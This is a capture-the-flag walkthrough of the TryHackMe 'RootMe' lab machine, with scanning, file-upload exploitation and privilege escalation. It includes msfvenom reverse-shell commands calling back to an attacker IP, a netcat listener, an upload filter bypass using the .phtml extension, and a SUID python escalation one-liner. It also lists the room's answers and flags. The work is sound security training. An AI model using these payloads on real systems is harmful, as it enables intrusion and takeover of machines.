 ![RootMe Banner](https://assets.tryhackme.com/img/banners/default_tryhackme.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/rrootme/Rootme_Cover.png" alt="RootMe Logo">
</p>

# RootMe

This guide contains the answer and steps necessary to get to them for the [RootMe](https://tryhackme.com/room/rrootme) room.

## Table of contents

- [Reconnaissance](#reconnaissance)
- [Getting a shell](#getting-a-shell)
- [Privilege escalation](#privilege-escalation)

### Reconnaissance

1. Scan the machine, how many ports are open?

   We use `nmap` for this with:

   ```console
   nmap -sV -sS 10.10.77.33 -p-     
   ```

   ![Recon Nmap](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/rrootme/Rootme_Recon_Nmap.png)

   ><details><summary>Click for answer</summary>2</details>

2. What version of Apache is running?

   The Apache version can be seen from the scan. Otherwise add the `-sV` argument.

   ><details><summary>Click for answer</summary>2.4.29</details>

3. What service is running on port 22?

   This can also be found from the scan when using `-sV`.

   ><details><summary>Click for answer</summary>ssh</details>

4. Find directories on the web server using the GoBuster tool.

5. What is the hidden directory?

   Finding hidden directories, can be done with the following command:

   ```console
   gobuster dir -u 10.10.77.33:80 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
   ```

   ![Recon Directory](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/rrootme/Rootme_Recon_Directory.png)

   One of these is not a standard folder for a webserver.

   ><details><summary>Click for answer</summary>/panel/</details>

### Getting a shell

1. user.txt

   The first to do is create a reverse shell payload. My first attempt was to use `msfvenom` to create a linux reverse tcp shell and output it as an `.elf` file.

   ```console
   msfvenom -p  linux/x64/meterpreter/reverse_tcp LHOST=10.10.82.70 LPORT=1337 -f elf -o letmein.elf
   ```

   ![Shell Payload](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/rrootme/Rootme_Shell_Payload.png)

   This can now be uploaded to the webserver.

   ![Shell Upload](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/rrootme/Rootme_Shell_Upload.png)

   Unfortunately, I did not get a connection as the files was simply downloaded. We need to try a different format. Php is another usefull format for a reverse shell.

   ```console
   msfvenom -p php/reverse_php LHOST=10.10.82.70 LPORT=1337 -f raw > letmein.php
   ```

   ![Shell Payload Php](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/rrootme/Rootme_Shell_Payload_Php.png)

   ![Shell Upload Php Fail](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/rrootme/Rootme_Shell_Upload_Php_Fail.png)

   The server doesn't let us upload a `.php` file. This might be bypassed by renaming the file extension. Simply renaming to `.jpg.php` did not work in this case, but `.phtml` did.

   ```console
   mv letmein.php letmein.phtml 
   ```

   ![Shell Upload Php Rename](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/rrootme/Rootme_Shell_Upload_Php_Rename.png)

   ![Shell Upload Php Success](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/rrootme/Rootme_Shell_Upload_Php_Success.png)

   Now that it is uploaded we start our listener again and click on the file we uploaded in the `/uploads/` directory.

   ```console
   nc -nlvp 1337
   ```

   ![Shell Directory](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/rrootme/Rootme_Shell_Directory.png)

   Although the shell is connecting to our machine, it never seems to be fully established. So another method is in order. A pre-made php reverse shell can be obtained from 'pentestmonkey' on [github](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

   ![Shell Php Script](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/rrootme/Rootme_Shell_Php_Script.png)

   We only need to add our own IP and port to listen on.

   ![Shell Php Script Edit](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/rrootme/Rootme_Shell_Php_Script_Edit.png)

   Save this file with the `phtml` extension en upload to the server. Setup the listener on port 1337 and execute the file from the `/uploads` page.

   ![Shell Connection](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/rrootme/Rootme_Shell_Connection.png)

   Success!

   Now we can search for the file `user.txt` and open it to get our flag.

   ```console
   find / -name user.txt 2>/dev/null
   ```

   ![Shell Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/rrootme/Rootme_Shell_Flag.png)

   ><details><summary>Click for answer</summary>THM{y0u_g0t_a_sh3ll}</details>

### Privilege escalation

1. Search for files with SUID permission, which file is weird?

   Using: `find / -perm -4000 2>/dev/null` we can search for any binaries with their SUID bit set.

   ![Priv SUID](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/rrootme/Rootme_Priv_SUID.png)

   ><details><summary>Click for answer</summary>/usr/bin/python</details>

2. Find a form to escalate your privileges.

3. root.txt

   After we identify the outlier, we can go to the GTFO bins website to find out how we can abuse this specific binary.

   ![Priv Gtfo](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/rrootme/Rootme_Priv_Gtfo.png)

   We need to add the path to the python binary on this machine to the command. Then we can simply run it in our shell.

   ```console
   /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
   ```

   ![Priv Escalation](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/rrootme/Rootme_Priv_Escalation.png)

   We got root access!

   Now lets search for the root flag.

   ```console
   find /root -name root.txt 2>/dev/null
   ```

   ![Priv Root Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/rrootme/Rootme_Priv_Root_Flag.png)

   ><details><summary>Click for answer</summary>THM{pr1v1l3g3_3sc4l4t10n}</details>